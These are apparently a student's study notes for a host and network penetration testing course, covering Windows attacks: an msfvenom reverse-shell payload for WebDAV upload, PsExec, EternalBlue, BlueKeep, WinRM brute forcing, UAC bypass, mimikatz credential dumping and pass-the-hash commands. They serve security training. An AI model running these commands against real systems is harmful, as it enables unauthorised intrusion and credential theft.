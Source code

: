 # Host & Network Penetration Testing: System/Host Based Attacks

Intro: system/host based attacks are targeted towards a specific system or host running a specific os

## Windows

### Webdav
**Continue from previous webdav lessons...Uploading msf backdoor to WebDAV**
- msfvenom is to create payload `msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > meterpreter.asp
- can also use `iis_webdav_upload` module in the framework instead of `cadaver` which is fully self contain

### SMB with PsExec

- before using psexec, valid credentials are needed, administrator account can be frute force
- brute force module name: `smb_login`
- The `smb/psexec` module in msf will very likely get caught but antivirus
- Manual exploit using psexec.py from impacket, install with `sudo apt install impacket-scripts`

### Eternal Blue MS17-010

What is shellcode?
Shellcode is a small piece of machine-level code (usually written in assembly) that an attacker uses as a payload — it's the code that gets executed once an exploit successfully gains control of a vulnerable process.

- Manual exploit available @ [https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)

how is shellcode related to MS17
1. The exploit causes a buffer overflow on a vulnerable system.
2. The attacker injects custom shellcode into memory as part of the payload.
3. Once the overflow occurs, the system executes the shellcode — giving you control.


### RDP

- The rdp_scanner module can varify if the port is running rdp
- After confirm, we can brute force the protocol

**BLUEKEEP (CVE-2019-0708)**

- An RDP vulnerability
- msf got both an auxiliary and exploit module for bluekeep (this module only work with 64bit windows, and also need to manually set target)
- Be EXTREMELY careful with kernel exploit, set CHUNK froom size smaller to be a bit gentle to the target machine

### WinRM

- not enabled by default need to be explicitly configured and enabled
- it allows sysadmin just provide username and userpassword/passwordhash to authenticate
- we can perform a bruteforce attack with "crackmapexec" syntax: `crackmapexec <protocol:winrm> <IP> -u <username:admin> -p <password list>
- to execute command with crackmapexec, syntax is: 'crackmapexec <protocol:winrm> <IP> -u <username> -p <password> -x <command to execute>
- to get command shell session we use "evil-winrm"
- msf also has a module: 'winrm_script_exec'
- TIPS: BY DEFAULT NMAP DOES NOT SCAN WINRM PORT 5985-5986

**Note: We are setting the PASSWORD because in the recent version of the "winrm_login" module, the PASSWORD option is required unless using Kerberos authentication. Metasploit will still use the USERPASS_FILE file.**

### Kernel Exploits & Priv Esc for windows

Tools to use:
- Windows-Exploit-Suggester
- Windows-Kernel-Exploits
- In msf, there is a module called `local_exploit_suggester`

**Bypassing UAC with UACMe**

- Requirements: an account that is part of local admin group
- Bypassing will likely not work if it is set to the highest level
- UACMe is developed by @hfire0x and can be downloaded [here](https://github.com/hfiref0x/UACME)
- It works by abusing the inbuilt windows auteelevate tool
- works ranging from win7 to win10

in meterpreter, using pgrep is to grep the process id

UACMe is a very complicated tool, it is recommended to have a home lab with win7, win8,win8.1 and win10 as lab to test all options

**Windows Access Token**





**Alternate Data Streams**

- ADS is an NTFS file attribute and design to be compatible with macOS HFS
- Attackers can use ADS to hide malicious code and executables in legitimate files
- eg: notepad test.txt:secret.txt


**Dumping Password and Hashes**

- Very old version use LM hashes, modern are all NTLM
- All are stored in SAM database and it's locked when the computer is running, thus attacker has to use in-memory techniques to dump SAM hashes from LSASS process
- SAM database is encrypted with a syskey in modern windows
- Elevated/Admin privs are required in order to access and interact with LSASS process
- LM(LanMan) hashes are splited into 2 chunks and hashed with DES algorithm
- NTLM does not split the hash into 2 chunks, also case sensitive unlike LM, but it's not salted, which makes it still quite easy to crack


**Mimikatz**

- It extract hashes from lsass.exe
- msf got mimikatz inside which calls kiwi `load kiwi` to use it
- to run mimikatz locally, the first thing is to check priv `privilege::debug`
- `lsadump::sam` to dump SAM in mimikatz
- Display log on password using `sekurlsa::logonpassword`
**(note that commands in kiwi and mimikatz are different)**

**Pass-The-Hash**

- After capturing hashes or clear-text passwords, we can authenticate it with the target legitimately
- There are many tools to use the pass the hash technique but here we will utilize msf PsExec module and Crackmapexec
- Remember sometimes just the NTLM hash will not work with PsExec module, so they might need the LM hash as well, the format will be `LM:NTLM`
  
- For crackmapexec, we can say `crackmapexec smb <IP> -u <username> -H "NTLM Hash" -x <command>` //no need LM hash here


## Linux

- Frequently Exploited Linux Services: 




